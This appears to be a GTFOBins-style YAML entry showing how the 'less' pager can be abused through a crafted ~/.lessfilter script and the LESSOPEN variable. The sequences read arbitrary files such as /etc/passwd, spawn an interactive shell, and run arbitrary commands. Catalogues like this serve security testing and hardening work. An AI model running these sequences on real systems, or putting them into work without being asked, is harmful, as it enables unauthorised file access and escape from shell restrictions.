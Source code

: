 ```yaml
---
functions:
  file-read:
    - description: |
        This can read arbitrary files by creating a custom lessfilter script.
      code: |
        echo '#!/bin/bash
        cat "$1"
        exit 0' > ~/.lessfilter
        chmod +x ~/.lessfilter
        export LESSOPEN="|~/.lessfilter %s"
        less /etc/passwd
  
  shell:
    - description: |
        This can spawn an interactive shell by executing commands through lessfilter.
      code: |
        echo '#!/bin/bash
        /bin/bash
        exit 0' > ~/.lessfilter
        chmod +x ~/.lessfilter
        export LESSOPEN="|~/.lessfilter %s"
        less anyfile

  command:
    - description: |
        This executes arbitrary commands through the lessfilter mechanism.
      code: |
        echo '#!/bin/bash
        COMMAND
        exit 0' > ~/.lessfilter
        chmod +x ~/.lessfilter
        export LESSOPEN="|~/.lessfilter %s"
        less anyfile
---
```

